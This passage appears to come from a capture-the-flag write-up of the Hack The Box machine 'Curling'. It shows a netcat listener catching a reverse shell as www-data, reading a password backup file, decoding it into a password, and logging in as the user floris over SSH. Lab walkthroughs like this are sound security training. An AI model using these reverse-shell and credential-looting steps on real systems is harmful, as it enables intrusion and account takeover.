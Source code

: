 ````bash
root@kali:~/Curling# nc -lnvp 9001
listening on [any] 9001 ...
connect to [my-ip] from (UNKNOWN) [10.10.10.150] 53762
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ cd /home
floris
$ cd floris
$ ls
admin-area
password_backup
user.txt
$ cat password_backup
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
````

Looking aroud, we have access as `www-data` and in the home directory of the user `floris`, I see a `password_backup` file.
I created a base64 output of the hexdump and used CyberChef to try and decode it.

![admin]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/curling/cyberchef.png)

It gave me a password `5d<wdCbdZu)|hChXll`. Let's use this password to login as `floris` using SSH.

````bash
root@kali:~/Curling# ssh floris@10.10.10.150
The authenticity of host '10.10.10.150 (10.10.10.150)' can't be established.
ECDSA key fingerprint is SHA256:o1Cqn+GlxiPRiKhany4ZMStLp3t9ePE9GjscsUsEjWM.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.150' (ECDSA) to the list of known hosts.
floris@10.10.10.150's password:
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-22-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Apr  7 21:24:05 UTC 2019

  System load:  0.01              Processes:            176
  Usage of /:   46.2% of 9.78GB   Users logged in:      1
  Memory usage: 21%               IP address for ens33: 10.10.10.150
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.

````